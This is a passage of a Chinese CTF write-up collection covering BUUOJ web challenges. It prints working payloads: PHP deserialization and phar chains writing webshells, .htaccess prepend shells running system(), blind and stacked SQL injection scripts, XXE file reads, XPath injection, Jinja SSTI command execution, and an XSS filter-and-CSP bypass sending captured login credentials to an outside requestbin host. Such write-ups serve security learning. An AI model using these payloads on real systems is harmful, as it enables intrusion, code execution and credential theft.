$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

上传两次, 第二次 get 传参 name 为 phar 协议来触发反序列化


## [EIS 2019]EzPOP

index.php

```php
<?php

class A {

    protected $store;

    protected $key;

    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {
            $this->save();
        }
    }
}

class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        return $this->options['prefix'] . $name;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }

    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;

        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }

        $expire = $this->getExpireTime($expire);
        $filename = $this->getCacheKey($name);

        $dir = dirname($filename);

        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        echo $data;
        $result = file_put_contents($filename, $data);

        if ($result) {
            return true;
        }

        return false;
    }

}

if (isset($_GET['src']))
{
    highlight_file(__FILE__);
}

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]);
```

简单反序列化, 代码有点复杂, 不过从 \_\_destruct 往前一步一步看就能弄明白了

主要考点是利用 php filter 去除开头的 `<?php exit();?>` 脏字符, 以 base64 为例

```php
<?php

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key, $expire){
        $this->store = $store;
        $this->key = $key;
        $this->expire = $expire;
    }
}

class B {
    public $options;
}

$b = new B();
$b->options = array(
    "prefix" => 'php://filter/write=convert.base64-decode/resource=',
    "serialize" => 'strval'
    );

$a = new A($b, '123.php', '456');

$a->autosave = False;
$a->cache = [];
$a->complete = "aaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMTIzNF0pOz8+";

echo urlencode(serialize($a));
```

开头加三个 aaa 是为了凑出来 4 bytes

```
http://616b4e74-f26c-4f6f-b466-dc88612c52e1.node4.buuoj.cn:81/?data=O%3A1%3A%22A%22%3A6%3A%7Bs%3A8%3A%22%00%2A%00store%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A7%3A%22options%22%3Ba%3A2%3A%7Bs%3A6%3A%22prefix%22%3Bs%3A50%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3D%22%3Bs%3A9%3A%22serialize%22%3Bs%3A6%3A%22strval%22%3B%7D%7Ds%3A6%3A%22%00%2A%00key%22%3Bs%3A7%3A%22123.php%22%3Bs%3A9%3A%22%00%2A%00expire%22%3Bs%3A3%3A%22456%22%3Bs%3A8%3A%22autosave%22%3Bb%3A0%3Bs%3A5%3A%22cache%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22complete%22%3Bs%3A43%3A%22aaaPD9waHAgZXZhbCgkX1JFUVVFU1RbMTIzNF0pOz8%2B%22%3B%7D
```


## [羊城杯2020]easyphp

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

只有 index.php 能够被解析, 猜测是利用 .htaccess 的 php\_value 属性设置 auto\_prepend\_file

参考文章 [https://blog.csdn.net/solitudi/article/details/116666720](https://blog.csdn.net/solitudi/article/details/116666720)

file 被过滤了, 并且 content 后面会加入脏字符, 可以通过 `\` 来转义

```
php_value auto_prepend_fi\
le .htaccess
#<?php system('cat /fla?');?>\
```

```
http://b63dd291-7b33-432f-a92d-b3bf76db2f08.node4.buuoj.cn:81/?filename=.htaccess&content=php_value+auto_prepend_fi\%0ale+.htaccess%0a%23<?php+system('cat /fla?');?>\
```


## [SUCTF 2018]annonymous

```php
<?php

$MY = create_function("","die(`cat flag.php`);");
$hash = bin2hex(openssl_random_pseudo_bytes(32));
eval("function SUCTF_$hash(){"
    ."global \$MY;"
    ."\$MY();"
    ."}");
if(isset($_GET['func_name'])){
    $_GET["func_name"]();
    die();
}
show_source(__FILE__);
```

题目来源于 hitcon 2017

[https://lorexxar.cn/2017/11/10/hitcon2017-writeup/](https://lorexxar.cn/2017/11/10/hitcon2017-writeup/)


大意是说通过 create\_function 创建的匿名函数其实是有名字的, 函数名为 `\x00lambda_%d`, `%d` 为数字, 依次递增

那么就可以通过 intruder 来爆破出这个数字


## [SWPU2019]Web4

登录框存在 sql 注入


测试发现过滤了一些关键字, select 也被过滤了... 看了 wp 才发现是堆叠注入

堆叠注入可以用预编译绕过关键字过滤


python 脚本

```python
import requests
import time
import json

dicts = r'{}_,.-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'

flag = ''

for i in range(1, 99999):
    for s in dicts:
        time.sleep(0.04)
        sql = 'select if(ascii(substr((select group_concat(flag) from flag),{},1))={}, sleep(2), 0)'.format(i, ord(s))
        payload = '\';prepare st from 0x{};execute st;'.format(''.join(map(lambda x: str(hex(ord(x))).replace('0x', ''), sql)))
        url = 'http://697bc918-3a4e-4630-b242-d992863b5859.node4.buuoj.cn:81/index.php?r=Login/Login'
        a = time.time()
        print(s)
        res = requests.post(url, data=json.dumps({
            'username': payload,
            'password': '123'
            }))
        b = time.time()
        if b -a >= 2:
            flag += s
            print('FOUND!!!',flag)
            break
```

跑出来是 `glzjin_wants_a_girl_friend.zip` , 于是下载该压缩包

网站是自己写的 mvc, 刚开始看没啥头绪, 然后看到了 extract


变量覆盖, 但是 viewPath 这里是类的属性, 覆盖不了, 只能往加载的模板 userIndex 里再看看


发现变量 `$img_file`, 可以读取文件, 遂改成 `/../flag.php`

```
http://697bc918-3a4e-4630-b242-d992863b5859.node4.buuoj.cn:81/index.php?r=User/Index&img_file=/../flag.php
```


## [CISCN2019 华东南赛区]Web4

任意文件读取

```
http://b49584d3-3080-416f-9e7e-f1390082ab6a.node4.buuoj.cn:81/read?url=/proc/self/cmdline
```

读取 cmdline 之后发现源文件在 /app/app.py 下, 然后读取 /usr/local/bin/python 发现环境是 2.7

```python
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

一开始往 flask pin 方向想了, 看到 `uuid.getnode()` 才想起来读取的是 mac 地址, 那么就存在伪随机数的问题

```python
import random
import uuid

mac = '1a:fe:f0:5d:cc:05'
n = int(mac.replace(':', ''), 16)
random.seed(n)
print str(random.random() * 233)
```

首先必须得用 python 2.7 来跑, 然后坑点是 str 会对小数点后面几位四舍五入一下, 所以最终的 secret\_key 是 `145.348233579` 而不是 `145.34823357875226`

flask-session-cookie-manager 伪造 cookie 得到 flag


看 wp 学到一个知识点, flask 环境下可以用 `local_file://` 代替 `file://`

## [Black Watch 入群题]Web

前端 webpack 打包, 开发者工具可以看到 vue 源码

简单异或 sql 注入

```python
import requests
import time

flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.08)
        mid = (min + max) // 2
        print(chr(mid))

        payload = 'if(ascii(substr((select(group_concat(username,\'_\',password))from(admin)),{},1))>{},1,0)'.format(i, mid)
        url = 'http://8f46cc43-6237-42d6-ae95-bee39e010ed1.node4.buuoj.cn:81/backend/content_detail.php?id=1^({})^1'.format(payload)
        res = requests.get(url)
        if 'content' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    i += 1

    print('found', flag)
```

用跑出来的第二个用户登录即可得到 flag


## [GWCTF 2019]mypassword

注册一个用户登录, 然后看到 Feedback, 右键注释如下

```php
if(is_array($feedback)){
    echo "<script>alert('反馈不合法');</script>";
    return false;
}
$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
foreach ($blacklist as $val) {
    while(true){
        if(stripos($feedback,$val) !== false){
            $feedback = str_ireplace($val,"",$feedback);
        }else{
            break;
        }
    }
}
```

随便写一点内容, 提交后去 List 查看, 发现 response header

```
Content-Security-Policy: default-src 'self';script-src 'unsafe-inline' 'self'
```

猜测是 xss bypass CSP

上面的黑名单绕过逻辑有点问题, 这里可以通过添加某个关键词来绕过该关键词前面的内容

即往 input script src 这些单词里面插入 cookie 可以绕过, 但是 cookie 关键词本身绕不过去, 无法获取 `document.cookie` 的内容

之后发现登录界面引用了一个 js 文件

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

到这里思路就很清晰了, 我们可以间接获取 cookie 的内容, 即先插入两个 input 表单并引用此 js 文件, 然后通过 dom 获取 username password, 最后绕过 csp 外带数据

绕过 csp 的方法很多, 下面以 `document.location` 为例

```html
<incookieput type="text" name="username">
<incookieput type="password" name="password">

<scrcookieipt scookierc="/js/login.js"></sccookieript>
<scrcookieipt>
	var username = docucookiement.getEcookielementsByName("username")[0].value;
    var password = doccookieument.getEcookielementsByName("password")[0].value;
    var  data = username + ":" + password;
    docookiecument.locacookietion = "http://http.requestbin.buuoj.cn/xxxx?data=" + data;
</scrcookieipt>
```

最后在 buu requestbin 上查看 flag


## [RootersCTF2019]babyWeb

简单报错注入


## [RoarCTF 2019]Simple Upload

thinkphp 3.2.4

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
}
```

试了一圈后发现并没有限制上传白名单, 后来看了文档发现人家的参数是 exts, 所以根本就没有 allowExts 这个参数

[https://www.kancloud.cn/manual/thinkphp/1876](https://www.kancloud.cn/manual/thinkphp/1876)

继续看文档发现上传单文件是 uploadOne, 上传多文件是 upload, 那么这里就可以构造多个 file 表单上传, 只是返回不了文件地址 (代码中仅输出 `$info['file']['savepath']` 这一条路径)

思路就是同时上传 A B(PHP), 然后爆破得出 PHP 文件的路径, 或者是依次上传 A B(PHP) A 这种方式得到文件名的范围

thinkphp 3 默认用 uniqid 函数来生成文件名, 其实就是微秒级别的时间戳, 但是注意会出现 a b c d e f 这几个字母

最后按照上面的思路上传后爆破文件名得到 flag


## [HFCTF2020]BabyUpload

```php
<?php
error_reporting(0);
session_save_path("/var/babyctf/");
session_start();
require_once "/flag";
highlight_file(__FILE__);
if($_SESSION['username'] ==='admin')
{
    $filename='/var/babyctf/success.txt';
    if(file_exists($filename)){
            safe_delete($filename);
            die($flag);
    }
}
else{
    $_SESSION['username'] ='guest';
}
$direction = filter_input(INPUT_POST, 'direction');
$attr = filter_input(INPUT_POST, 'attr');
$dir_path = "/var/babyctf/".$attr;
if($attr==="private"){
    $dir_path .= "/".$_SESSION['username'];
}
if($direction === "upload"){
    try{
        if(!is_uploaded_file($_FILES['up_file']['tmp_name'])){
            throw new RuntimeException('invalid upload');
        }
        $file_path = $dir_path."/".$_FILES['up_file']['name'];
        $file_path .= "_".hash_file("sha256",$_FILES['up_file']['tmp_name']);
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        @mkdir($dir_path, 0700, TRUE);
        if(move_uploaded_file($_FILES['up_file']['tmp_name'],$file_path)){
            $upload_result = "uploaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $upload_result = $e->getMessage();
    }
} elseif ($direction === "download") {
    try{
        $filename = basename(filter_input(INPUT_POST, 'filename'));
        $file_path = $dir_path."/".$filename;
        if(preg_match('/(\.\.\/|\.\.\\\\)/', $file_path)){
            throw new RuntimeException('invalid file path');
        }
        if(!file_exists($file_path)) {
            throw new RuntimeException('file not exist');
        }
        header('Content-Type: application/force-download');
        header('Content-Length: '.filesize($file_path));
        header('Content-Disposition: attachment; filename="'.substr($filename, 0, -65).'"');
        if(readfile($file_path)){
            $download_result = "downloaded";
        }else{
            throw new RuntimeException('error while saving');
        }
    } catch (RuntimeException $e) {
        $download_result = $e->getMessage();
    }
    exit;
}
?>
```

上传目录跟 session 保存目录是在一起的, 一眼伪造 session

将 attr 置空可以将文件上传到 /var/babyctf 目录

然后注意 session id 不能包含 `_`, 所以需要上传的文件名为 `sess`, 这样后面取得该 session 的时候直接指定 PHPSESSID 为那串 sha256 即可

先发个包读一下 session 内容


注意到是 php\_binary 的格式

然后构造上传包


程序后面会检测 success.txt 是否存在

但其实只要仔细看手册就能发现它也能检测目录, 而目录名称对于我们来说是可控的


于是构造最后一个上传包来创建 `success.txt` 目录


带着 sha256 访问得到 flag


## [GoogleCTF2019 Quals]Bnv

把 `Content-Type` 改成 `application/xml` 会发现有 xxe, 并且有错误回显

服务器不出网, 考虑利用本地 dtd 文件来进行 error-based xxe

参考文章如下

[https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/](https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/)

[https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

原理就是如果同一个实体被定义了两次, 那么在引用的时候只会引用第一次定义的实体

然后 xml 规范规定禁止在内部实体中使用参数实体, 需要通过引用外部 dtd 来绕过限制

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % local SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval;
    '>
    %local;
]>
<root>
<message>123</message>
</root>
```


在第一篇文章中作者给出了另外一种无需引用外部 dtd 的构造方式

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % eval1 '
        <!ENTITY &#x25; eval2 "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval2;
    '>
    %eval1;
]>
<root>
<message>123</message>
</root>
```

似乎是解析器的问题 (?) 套了三层之后就检测不出来了

同样能够得到 flag

## [NPUCTF2020]ezlogin

登录页面 xpath 注入

比较烦的是每登录一次 token 就要更新

盲注出来的 xml 结构大致如下

```xml
<root>
    <accounts>
        <user>
            <id>1</id>
            <username>guest</username>
            <password>...</password>
        </user>
         <user>
            <id>2</id>
            <username>adm1n</username>
            <password>cf7414b5bdb2e65ee43083f4ddbc4d9f</password>
        </user>   
    </accounts>
</root>
```

python 脚本

```python
import requests
import time
import json
import re

# dicts = r'{}_,.-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'
# dicts = r'-0123456789abcdefgl{}'
dicts = '_0123456789abcdefghijklmnopqrstuvwxyz'

flag = ''

req = requests.Session()

for i in range(1, 99999):
    for s in dicts:
        time.sleep(0.2)
        print('testing', s)
        url = 'http://41b2f226-548a-4a99-b535-5c53aee7dbd3.node4.buuoj.cn:81/'
        res1 = req.get(url)
        token = re.findall('"token" value="(.*)"', res1.text)[0]
        # username = "' or count(/root/accounts/user[1]/*)=3 or '1"
        # username = "' or string-length(name(/root/accounts/user[1]/*[2]))=8 or '1"
        username = "' or substring((/root/accounts/user[2]/username), {}, 1)='{}' or '1".format(i, s)
        password = "123"
        xml = '''<username>{}</username><password>{}</password><token>{}</token>'''.format(username, password, token)
        res2 = req.post(url + 'login.php', data=xml, headers={
            'Content-Type': 'application/xml'
        })
        # print(res2.text)
        # exit()
        if '非法操作!' in res2.text:
            flag += s
            print(flag)
            break
```

md5 解密后为 `gtfly123`

登录后右键源码一串 base64, 解码后内容为 `flag is in /flag`

admin.php 页面存在任意文件读取 (非文件包含)

限制了 `.php` `php://filter` `base64` 关键字, 通过大小写绕过

另外对于读取后返回文件内容也存在检测, 用 base64 绕过

```
http://41b2f226-548a-4a99-b535-5c53aee7dbd3.node4.buuoj.cn:81/admin.php?file=PHP://filter/convert.BASE64-encode/resource=/flag
```

## [pasecactf_2019]flask_ssti

简单 ssti, 过滤了 `_` `.` `'`

构造 payload 如下

```python
{{config["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["os"]["popen"]("ls /")["read"]()}}
```

读取 /app/app.py

```python
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
flag = flag[:42]

app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""

os.remove("/app/flag")

nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)
        except Exception as e:
            print(e)
        return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

很经典的利用 /proc/self/fd/ 来读取 flag

注意需要使用 python open 函数来读取 (否则 self 指向的是某个命令的 pid)

```python
{{lipsum["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["open"]("/proc/self/fd/3")["read"]()}}
```


## [DDCTF 2019]homebrew event loop

```python
from flask import Flask, session, request, Response
import urllib

app = Flask(__name__)
app.secret_key = '*********************'  # censored
url_prefix = '/d5afe1f66147e857'


def FLAG():
    return '*********************'  # censored


def trigger_event(event):
    session['log'].append(event)
    if len(session['log']) > 5:
        session['log'] = session['log'][-5:]
    if type(event) == type([]):
        request.event_queue += event
    else:
        request.event_queue.append(event)


def get_mid_str(haystack, prefix, postfix=None):
    haystack = haystack[haystack.find(prefix)+len(prefix):]
    if postfix is not None:
        haystack = haystack[:haystack.find(postfix)]
    return haystack


class RollBackException:
    pass


def execute_event_loop():
    valid_event_chars = set(
        'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#')
    resp = None
    while len(request.event_queue) > 0:
        # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......"
        event = request.event_queue[0]
        request.event_queue = request.event_queue[1:]
        if not event.startswith(('action:', 'func:')):
            continue
        for c in event:
            if c not in valid_event_chars:
                break
        else:
            is_action = event[0] == 'a'
            action = get_mid_str(event, ':', ';')
            args = get_mid_str(event, action+';').split('#')
            try:
                event_handler = eval(
                    action + ('_handler' if is_action else '_function'))
                ret_val = event_handler(args)
            except RollBackException:
                if resp is None:
                    resp = ''
                resp += 'ERROR! All transactions have been cancelled. <br />'
                resp += '<a href="./?action:view;index">Go back to index.html</a><br />'
                session['num_items'] = request.prev_session['num_items']
                session['points'] = request.prev_session['points']
                break
            except Exception, e:
                if resp is None:
                    resp = ''
                # resp += str(e) # only for debugging
                continue
            if ret_val is not None:
                if resp is None:
                    resp = ret_val
                else:
                    resp += ret_val
    if resp is None or resp == '':
        resp = ('404 NOT FOUND', 404)
    session.modified = True
    return resp


@app.route(url_prefix+'/')
def entry_point():
    querystring = urllib.unquote(request.query_string)
    request.event_queue = []
    if querystring == '' or (not querystring.startswith('action:')) or len(querystring) > 100:
        querystring = 'action:index;False#False'
    if 'num_items' not in session:
        session['num_items'] = 0
        session['points'] = 3
        session['log'] = []
    request.prev_session = dict(session)
    trigger_event(querystring)
    return execute_event_loop()

# handlers/functions below --------------------------------------


def view_handler(args):
    page = args[0]
    html = ''
    html += '[INFO] you have {} diamonds, {} points now.<br />'.format(
        session['num_items'], session['points'])
    if page == 'index':
        html += '<a href="./?action:index;True%23False">View source code</a><br />'
        html += '<a href="./?action:view;shop">Go to e-shop</a><br />'
        html += '<a href="./?action:view;reset">Reset</a><br />'
    elif page == 'shop':
        html += '<a href="./?action:buy;1">Buy a diamond (1 point)</a><br />'
    elif page == 'reset':
        del session['num_items']
        html += 'Session reset.<br />'
    html += '<a href="./?action:view;index">Go back to index.html</a><br />'
    return html


def index_handler(args):
    bool_show_source = str(args[0])
    bool_download_source = str(args[1])
    if bool_show_source == 'True':

        source = open('eventLoop.py', 'r')
        html = ''
        if bool_download_source != 'True':
            html += '<a href="./?action:index;True%23True">Download this .py file</a><br />'
            html += '<a href="./?action:view;index">Go back to index.html</a><br />'

        for line in source:
            if bool_download_source != 'True':
                html += line.replace('&', '&amp;').replace('\t', '&nbsp;'*4).replace(
                    ' ', '&nbsp;').replace('<', '&lt;').replace('>', '&gt;').replace('\n', '<br />')
            else:
                html += line
        source.close()

        if bool_download_source == 'True':
            headers = {}
            headers['Content-Type'] = 'text/plain'
            headers['Content-Disposition'] = 'attachment; filename=serve.py'
            return Response(html, headers=headers)
        else:
            return html
    else:
        trigger_event('action:view;index')


def buy_handler(args):
    num_items = int(args[0])
    if num_items <= 0:
        return 'invalid number({}) of diamonds to buy<br />'.format(args[0])
    session['num_items'] += num_items
    trigger_event(['func:consume_point;{}'.format(
        num_items), 'action:view;index'])


def consume_point_function(args):
    point_to_consume = int(args[0])
    if session['points'] < point_to_consume:
        raise RollBackException()
    session['points'] -= point_to_consume


def show_flag_function(args):
    flag = args[0]
    # return flag # GOTCHA! We noticed that here is a backdoor planted by a hacker which will print the flag, so we disabled it.
    return 'You naughty boy! ;) <br />'


def get_flag_handler(args):
    if session['num_items'] >= 5:
        # show_flag_function has been disabled, no worries
        trigger_event('func:show_flag;' + FLAG())
    trigger_event('action:view;index')


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0')
```

这题卡挺久的, 一开始都在往怎么通过 eval 来执行 FLAG 函数这块去想了...

其实是一个逻辑漏洞, 核心是 `trigger_event` 会**记录 event 的日志**并保存至 `session['log']`

虽然 `show_flag_function` 无法返回 flag, 但在此之前 ` trigger_event('func:show_flag;' + FLAG())` 这句已经将 flag 的值保存到了 `session['log']`

所以只需要购买五个商品, 然后在返回包里面拿 session 再解密就能得到 flag

程序的逻辑漏洞在于 `buy_handler` 和 `consume_point_function` 是分开执行的, 而且有先后顺序

`buy_handler` 首先会将 `num_items` 加到 session 里面, 之后才会通过 `trigger_event` 调用 `consume_point_function` 扣钱, 扣钱失败就会 rollback

而在 `execute_event_loop` 函数中我们的 eval 语句可控 (注释绕过后缀限制), 也就意味着我们可以通过调用 `trigger_event` 来控制 `event_queue`, 从而控制相关函数的**执行顺序**

最终的思路就是调用 `trigger_event` 在 `consume_point_function` 执行之前先后放入 `buy_handler` 和 `get_flag_handler` 这两个 event 从而将 flag 写入 session, 这样即使最后 rollback 了也不会影响 `session['log']` 的值

payload 如下

```
/d5afe1f66147e857/?action:trigger_event#;action:buy;5#action:get_flag;1
```


## [XNUCA2019Qualifier]EasyPHP

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    include_once("fl3g.php");
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

非 index.php 不解析

利用 .htaccess 绕过

```
http://af195544-85f8-4e1f-8868-ef5faf8632eb.node4.buuoj.cn:81/?filename=.htaccess&content=php_value auto_prepend_fi\%0ale .htaccess%0a%23<?php system($_GET[1]);?>%0a%23%20\
```


## [PASECA2019]honey_shop

flask, 存在任意文件读取

py 被过滤不可读, 通过 /proc/self/environ 拿到 secret_key 然后伪造 balance


## [WMCTF2020]Make PHP Great Again 2.0

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

```
http://b3578859-e62f-425c-9bb9-0e203951e865.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## [NESTCTF 2019]Love Math 2

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 60) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
